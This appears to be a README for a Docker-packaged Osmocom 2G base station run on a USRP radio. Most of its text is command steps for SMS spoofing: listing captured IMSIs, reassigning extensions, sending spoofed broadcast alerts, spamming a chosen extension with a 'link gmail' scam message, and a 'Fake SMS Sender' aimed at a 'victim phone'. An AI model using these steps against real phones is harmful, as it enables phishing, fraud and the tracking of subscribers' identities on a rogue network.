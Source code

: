 # Dockerfile
at [Dockerfile.bulk2g_usrp](https://github.com/SitrakaResearchAndPOC/Bulk2g_docker/blob/main/bulk2g_usrp/Dockerfile.bulk2g_usrp)
```
docker build -t bulk2g_usrp -f Dockerfile.bulk2g_usrp .
```
```
docker rm -f bulk2g_usrp
```
```
 docker run -tid --privileged --cgroupns=host --net=host -v /sys/fs/cgroup:/sys/fs/cgroup:rw -v /dev:/dev -v /dev/bus/usb:/dev/bus/usb -v /tmp/.X11-unix:/tmp/.X11-unix:ro -v $XAUTHORITY:/home/user/.Xauthority:ro --tmpfs /run --tmpfs /run/lock --env="DISPLAY=$DISPLAY" --env="LC_ALL=C.UTF-8" --env="LANG=C.UTF-8" --name bulk2g_usrp --hostname bulk2g_usrp bulk2g_usrp
```
```
docker exec -it bulk2g_usrp bash
```
```
docker exec -it bulk2g_usrp uhd_usrp_probe
```
```
docker exec -it bulk2g_usrp uhd_find_devices 
```
```
docker exec -it bulk2g_usrp osmo-trx-uhd -C /etc/osmocom/osmo-trx-uhd.cfg
```

# Launching spoofing 1
ctrl+shift+t
```
docker exec -it bulk2g_usrp python3 osmo-nitb-scripts/main_uhd_spoof.py
```
Testing USRP SpoofScript1 :
```
docker exec -it bulk2g_usrp bash osmo-nitb-scripts/scripts_spoof1/finding_imsi_extenstion.sh
```
You could find imsi and extension </br>
let's see for example IMSI as 646040222463674 and as 126 </br>
```
docker exec -it bulk2g_usrp bash osmo-nitb-scripts/scripts_spoof1/set_imsi_extension.sh <IMSI> 0341220590
```
Verify by if the association is correct let's see for example imsi as 646040222463674 and extension as 0341220590
```
docker exec -it bulk2g_usrp  bash osmo-nitb-scripts/scripts_spoof1/finding_imsi_extenstion.sh
```
Tape *#*#4636#*#* and choose GSM only on your Android phone </br>
Search GSM network (on your phone), associate with PLMN MCC 001 && MNC 01 </br>
Tape *#001# for finding your phone number (extension with osmo-bts) </br>
```
docker exec -it bulk2g_usrp  python2 osmo-nitb-scripts/scripts_spoof1/sending_sms_spoof_byextension.py
```
Sending for all extensions in osmo-bts
```
docker exec -it bulk2g_usrp python2 osmo-nitb-scripts/scripts_spoof1/sending_sms_broadcast.py 
```
log should be : subscriber extension 0341220590 sms sender extension 0341220590 send ALERT Corona virus

# Spoofing script2

Testing USRP SpoofScript2 :  </br>
ctrl+shift+T
```
docker exec -it bulk2g_usrp python2 osmo-nitb-scripts/scripts_spoof2/show_subscribers.py
```
You could find imsi and extension Create a virtual extension 0341220590 and send sms to existing EXTENSION eg : 164
```
docker exec -it bulk2g_usrp python2 osmo-nitb-scripts/scripts_spoof2/sms_spam.py <EXTENSION> 3 "link gmail"
```
More debug  
```
docker exec -it bulk2g_usrp telnet 127.0.0.1 4242
```
You could find imsi and extension
```
docker exec -it bulk2g_usrp python2 osmo-nitb-scripts/scripts_spoof2/show_subscribers.py 
```
Creating many extensions for sending a scam sms repeat 3 times
```
docker exec -it bulk2g_usrp python2 osmo-nitb-scripts-calypsobts/scripts_spoof2/sms_spam.py <EXTENSION> 3 "link gmail"
```
You could find imsi and extension
```
docker exec -ti bulk2g_usrp python2 osmo-nitb-scripts-calypsobts/scripts_spoof2/show_subscribers.py 
```
Sending a broadcast sms by using a virtual number as extension 165
```
docker exec -it bulk2g_usrp python2 osmo-nitb-scripts/scripts_spoof2/sms_broadcast.py 165 "link gmail"
```
You could find imsi and extension
```
docker exec -ti bulk2g_usrp  python2 osmo-nitb-scripts-calypsobts/scripts_spoof2/show_subscribers.py
```

# Fake SMS Sender
Testing USRP Fake SMS Sender: </br>
RESTART ALL : </br>
```
docker exec -it bulk2g_usrp  osmo-trx-uhd -C /etc/osmocom/osmo-trx-uhd.cfg
```
Tape ctrl+shift+T
```
docker exec -it bulk2g_usrp python3 osmo-nitb-scripts/main_uhd.py
```
Add victim phone and tape Tape ctrl+shift+T
```
docker exec -ti bulk2g_usrp  cat osmo-nitb-scripts/interact.py
```
```
docker exec -ti bulk2g_usrp  python3 osmo-nitb-scripts/interact.py
```

docker exec -it bulk2g_usrp python3 osmo-nitb-scripts/interact.py

